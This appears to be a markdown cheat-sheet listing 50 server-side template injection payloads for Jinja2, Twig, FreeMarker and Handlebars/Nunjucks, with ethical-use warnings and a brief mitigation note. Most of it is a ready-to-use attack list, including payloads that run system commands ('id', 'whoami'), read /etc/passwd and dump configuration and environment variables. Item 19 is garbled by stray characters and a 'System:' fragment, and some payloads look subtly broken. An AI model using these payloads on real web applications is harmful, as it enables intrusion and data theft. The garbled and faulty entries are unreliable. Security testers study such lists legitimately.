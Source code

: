 ```yaml
---
title: "Server-side template injection payload"
tags:
  - SSTI_injection
---
```


Many template engine (e.g., Jinja2, Twig, FreeMarker) exists different context (e.g., Flask, Symfony).

Server-Side Template Injection (SSTI) is a vulnerability where attackers inject malicious code into template engines (e.g., Jinja2, Twig, FreeMarker, Handlebars) used by web applications to dynamically generate content. By injecting template expressions, attackers can execute arbitrary code, access server-side data, or manipulate application logic. Below is a list of 50 example SSTI payloads tailored to various template engines. These payloads are designed to test for vulnerabilities in controlled environments.

**Warning**: These payloads are for educational and ethical testing purposes only, in controlled environments with explicit permission. Unauthorized use is illegal and unethical. Always test responsibly in a legal, authorized environment.

### SSTI Payload Characteristics
- Payloads target template engine syntax, which varies by framework (e.g., {% raw %} `{{ }}` for Jinja2, `{% %}` {% endraw %} for Twig, `${}` for FreeMarker).
- Common goals include executing code, accessing sensitive data (e.g., `request`, `config`), or testing for template rendering.
- Payloads often exploit template engine features like variable access, loops, or function calls.

The payloads below cover popular template engines and include generic tests, specific engine syntax, and advanced exploitation techniques. They assume user input is directly embedded into a template (e.g., `Hello {{user_input}}`). Adapt payloads based on the suspected template engine.

### SSTI Payloads
#### Generic Detection Payloads
These test for SSTI by attempting simple operations to detect template execution.

{% raw %}
1. `{{7*7}}` - Tests if `49` is rendered (Jinja2, Handlebars, etc.).
2. `${7*7}` - Tests for FreeMarker or Velocity template engines.
3. `<% 7*7 %>` - Tests for ERB (Ruby) or JSP template engines.
4. `{{1+1}}` - Tests basic arithmetic rendering.
5. `${{1+1}}` - Tests for Nunjucks or Handlebars.
6. `{% debug %}` - Tests for Twig debug output.
7. `{{ config }}` - Attempts to dump configuration (Jinja2, Flask).
8. `{{ request }}` - Accesses request object (Jinja2, Flask).
9. `<% out.println(7*7) %>` - Tests JSP execution.
10. `{{ ''.__class__ }}` - Tests for Python class access (Jinja2).
{% endraw %}

#### Jinja2/Flask (Python) Payloads
Jinja2 is common in Flask applications, using {% raw %} `{{ }}` {% endraw %} for expressions.

{% raw %}
11. `{{ ''.__class__.__mro__ }}` - Dumps method resolution order.
12. `{{ self.__init__.__globals__ }}` - Accesses global namespace.
13. `{{ ''.__class__.__base__ }}` - Accesses base class.
14. `{{ config.items() }}` - Dumps Flask configuration.
15. `{{ get_flashed_messages.__globals__ }}` - Accesses Flask globals.
16. `{{ ''.__class__.__subclasses__() }}` - Lists all subclasses.
17. `{{ ''.__class__.__base__.__subclasses__()[59].__init__.__func__.__globals__['sys'].modules['os'].system('id') }}` - Executes system command (Linux).
18. `{{ request.application.__self__.__dict__ }}` - Dumps application context.
19. `{{ url_for.__globals__['os'].p ո
{% endraw %}

System: .popen('whoami') }}` - Attempts to execute `whoami` command (Jinja2).
{% raw %}
20. `{{ ''.join(os.listdir('/')) }}` - Lists root directory contents.
{% endraw %}

#### Twig (PHP) Payloads
Twig is used in PHP frameworks like Symfony, using {% raw %} `{{ }}` {% endraw %} and {% raw %} `{% %}` {% endraw %} 禁止

{% raw %}
21. `{{ 1+1 }}` - Tests arithmetic evaluation.
22. `{{ app.request }}` - Accesses request object.
23. `{% include '/etc/passwd' %}` - Attempts to read sensitive file.
24. `{{ _context }}` - Dumps template context.
25. `{{ dump(app) }}` - Dumps application object.
26. `{% set foo = system('id') %}{{ foo }}` - Attempts command execution.
27. `{{ constant('PHP_OS') }}` - Retrieves OS information.
28. `{% debug %}` - Outputs debug information.
29. `{{ app.session.user }}` - Accesses session user data.
30. `{% filter phpinfo %}1{% endfilter %}` - Attempts to display PHP info.
{% endraw %}

#### FreeMarker (Java) Payloads
FreeMarker is used in Java applications, using `${}` for expressions.

{% raw %}
31. `${7*7}` - Tests arithmetic evaluation.
32. `${.api}` - Dumps FreeMarker API context.
33. `${.dataModel}` - Accesses data model.
34. `${request}` - Accesses HTTP request object.
35. `${.builtIns?keys}` - Lists built-in functions.
36. `${.getClass().forName("java.lang.Runtime").getMethod("exec","java.lang.String").invoke(null,"whoami")}` - Attempts command execution.
37. `${user}` - Accesses user object.
38. `${.vars}` - Dumps all variables in scope.
39. `${System.getProperty("os.name")}` - Retrieves OS name.
40. `${.main?string}` - Dumps main template data.
{% endraw %}

#### Handlebars/Nunjucks (JavaScript) Payloads
Used in Node.js applications, using {% raw %} `{{ }}` {% endraw %} or {% raw %} `{{{ }}}`{% endraw %} .

{% raw %}
41. `{{ 7 * 7 }}` - Tests arithmetic evaluation.
42. `{{ global.process }}` - Accesses Node.js process object.
43. `{{{ global }}}` - Dumps global scope.
44. `{{ require('os').userInfo() }}` - Attempts to retrieve user info.
45. `{{ process.env }}` - Dumps environment variables.
46. `{{ __dirname }}` - Retrieves current directory.
47. `{{{ this }}}` - Dumps current context.
48. `{{ require('fs').readdirSync('.') }}` - Lists current directory files.
49. `{{ global.process.argv }}` - Accesses command-line arguments.
50. `{{ Object.keys(global) }}` - Lists global object keys.
{% endraw %}

### Notes
- **Template Engine Detection**: Start with generic payloads (e.g., `{{7*7}}`) to identify the engine, then use engine-specific payloads.
- **Context-Specific**: Payloads must match the template engine’s syntax and available objects (e.g., `request` in Flask, `app` in Twig).
- **Encoding**: For web inputs, payloads may need URL encoding (e.g., `{{` becomes `%7B%7B`).
- **Ethical Use**: Only test systems you own or have explicit permission to test. Unauthorized testing is illegal.
- **Mitigation**: Developers should sanitize user inputs, use safe template rendering (e.g., auto-escaping), and avoid embedding raw user input in templates.


